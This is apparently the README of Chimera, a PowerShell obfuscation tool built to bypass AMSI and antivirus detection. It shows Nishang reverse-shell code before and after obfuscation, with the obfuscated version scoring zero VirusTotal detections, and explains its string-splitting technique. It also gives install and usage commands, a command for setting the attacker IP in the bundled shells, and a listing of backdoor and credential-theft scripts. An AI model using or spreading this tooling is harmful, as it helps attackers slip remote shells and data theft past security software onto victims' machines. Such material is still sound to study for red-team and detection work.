


Chimera is a (shiny and very hack-ish) PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.


Chimera was created for [this write-up](https://null-byte.com/bypass-amsi-0333967/) and is [further evidence](https://github.com/tokyoneon/Chimera#resources) of how trivial it is to bypass detection signatures. Hopefully, this repository will inspire someone to build something robust and more reliable.

## How Chimera works...

Below is a snippet of Nishang's [Invoke-PowerShellTcp.ps1](shells/Invoke-PowerShellTcp.ps1), found at [nishang/Shells](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). VirusTotal reports [25 detections](https://www.virustotal.com/gui/file/0f1e223eaf8b6d71f65960f8b9e14c98ba62e585334a6349bcd02216f4415868/detection) of the PS1 script.

```powershell
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}

#Send back current username and computername
$sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
$stream.Write($sendbytes,0,$sendbytes.Length)

#Show an interactive PowerShell prompt
$sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
$stream.Write($sendbytes,0,$sendbytes.Length)
```



And here it is again, after Chimera. VirusTotal reports [0 detections](https://www.virustotal.com/gui/file/74a47198fefa10a8ebb88a8b130259e56a5a9fc4302089ac73009742ba5c98dc/detection) of the obfuscated version.

```powershell
  # Watched anxiously by the Rebel command, the fleet of small, single-pilot fighters speeds toward the massive, impregnable Death Star.
              $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov = $jYODNAbvrcYMGaAnZHZwE."$bnyEOfzNcZkkuogkqgKbfmmkvB$ZSshncYvoHKvlKTEanAhJkpKSIxQKkTZJBEahFz$KKApRDtjBkYfJhiVUDOlRxLHmOTOraapTALS"()
       # As the station slowly moves into position to obliterate the Rebels, the pilots maneuver down a narrow trench along the station’s equator, where the thermal port lies hidden.
          [bYte[]]$mOmMDiAfdJwklSzJCUFzcUmjONtNWN = 0..65535|%{0}
   # Darth Vader leads the counterattack himself and destroys many of the Rebels, including Luke’s boyhood friend Biggs, in ship-to-ship combat.

  # Finally, it is up to Luke himself to make a run at the target, and he is saved from Vader at the last minute by Han Solo, who returns in the nick of time and sends Vader spinning away from the station.
           # Heeding Ben’s disembodied voice, Luke switches off his computer and uses the Force to guide his aim.
   # Against all odds, Luke succeeds and destroys the Death Star, dealing a major defeat to the Empire and setting himself on the path to becoming a Jedi Knight.
           $PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK = ([teXt.enCoDInG]::AsCII)."$mbKdotKJjMWJhAignlHUS$GhPYzrThsgZeBPkkxVKpfNvFPXaYNqOLBm"("WInDows Powershell rUnnInG As User " + $TgDXkBADxbzEsKLWOwPoF:UsernAMe + " on " + $TgDXkBADxbzEsKLWOwPoF:CoMPUternAMe + "`nCoPYrIGht (C) 2015 MICrosoft CorPorAtIon. All rIGhts reserveD.`n`n")
# Far off in a distant galaxy, the starship belonging to Princess Leia, a young member of the Imperial Senate, is intercepted in the course of a secret mission by a massive Imperial Star Destroyer.
            $xdgIPkCcKmvqoXAYKaOiPdhKXIsFBDov.WrIte($PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK,0,$PqJfKJLVEgPdfemZPpuJOTPILYisfYHxUqmmjUlKkqK.LenGth)
   # An imperial boarding party blasts its way onto the captured vessel, and after a fierce firefight the crew of Leia’s ship is subdued.
```



Chimera does several things to obfuscate the source. The `transformer` function will separate strings into multiple pieces and reconstruct them as new variables.

For example, it will take a string like `... New-Object System.Net.Sockets.TCPClient ...` and convert it to:

```powershell
$a = "Syste"
$b = "m.Net.Soc"
$c = "kets.TCP"
$d = "Client"

... New-Object $a$b$c$d ...
```

The function separates commonly flagged data types and strings into several chunks. It defines the chunks and concatenates them at the top of the script. A higher `--level` will result in smaller chunks and more variables.
```powershell
$CNiJfmZzzQrqZzqKqueOBcUVzmkVbllcEqjrbcaYzTMMd = "`m"
$quiyjqGdhQZgYFRdKpDGGyWNlAjvPCxQTTbmFkvTmyB = "t`Rea"
$JKflrRllAqgRlHQIUzOoyOUEqVuVrqqCKdua = "Get`s"
$GdavWoszHwDVJmpYwqEweQsIAz = "ti`ON"
$xcDWTDlvcJfvDZCasdTnWGvMXkRBKOCGEANJpUXDyjPob = "`L`O`Ca"
$zvlOGdEJVsPNBDwfKFWpvFYvlgJXDvIUgTnQ = "`Get`-"
$kvfTogUXUxMfCoxBikPwWgwHrvNOwjoBxxto = "`i"
$tJdNeNXdANBemQKeUjylmlObtYp = "`AsC`i"
$mhtAtRrydLlYBttEnvxuWkAQPTjvtFPwO = "`G"
$PXIuUKzhMNDUYGZKqftvpAiQ = "t`R`iN
```

## Usage

Clone the repository. Tested in Kali v2020.3.
```
sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
sudo chmod +x chimera.sh; ./chimera.sh --help
```

Basic usage.
```
./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
```

Review the [usage guide](USAGE.md) and [write-up](https://null-byte.com/bypass-amsi-0333967/) for more examples and screenshots.

## Shells

In the `shells/` directory are several Nishang scripts and a few generic ones. All have been tested and should work fine. But there's no telling how untested scripts will reproduce with Chimera...

Change the hardcoded IP addresses.
```
sed -i 's/192.168.56.101/<YOUR-IP-ADDRESS>/g' shells/*.ps1
```

```
ls -laR shells/

shells/:
total 60
-rwxrwx--- 1 tokyoneon tokyoneon 1727 Aug 29 22:02 generic1.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 1433 Aug 29 22:02 generic2.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  734 Aug 29 22:02 generic3.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4170 Aug 29 22:02 Invoke-PowerShellIcmp.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  281 Aug 29 22:02 Invoke-PowerShellTcpOneLine.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4404 Aug 29 22:02 Invoke-PowerShellTcp.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  594 Aug 29 22:02 Invoke-PowerShellUdpOneLine.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 5754 Aug 29 22:02 Invoke-PowerShellUdp.ps1
drwxrwx--- 1 tokyoneon tokyoneon 4096 Aug 28 23:27 misc
-rwxrwx--- 1 tokyoneon tokyoneon  616 Aug 29 22:02 powershell_reverse_shell.ps1

shells/misc:
total 36
-rwxrwx--- 1 tokyoneon tokyoneon 1757 Aug 12 19:53 Add-RegBackdoor.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 3648 Aug 12 19:53 Get-Information.ps1
-rwxrwx--- 1 tokyoneon tokyoneon  672 Aug 12 19:53 Get-WLAN-Keys.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 4430 Aug 28 23:31 Invoke-PortScan.ps1
-rwxrwx--- 1 tokyoneon tokyoneon 6762 Aug 29 00:27 Invoke-PoshRatHttp.ps1
```

## Resources

- * [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- * [AMSITrigger](https://github.com/RythmStick/AMSITrigger)
- * [PSAmsi](https://github.com/cobbr/PSAmsi)
- * [amsi.fail](https://amsi.fail/)
- * [Unicorn](https://github.com/trustedsec/unicorn)
- * [www.wolfandco.com](https://www.wolfandco.com/insight/behind-enemy-lines-pen-tester%E2%80%99s-take-evading-amsi)
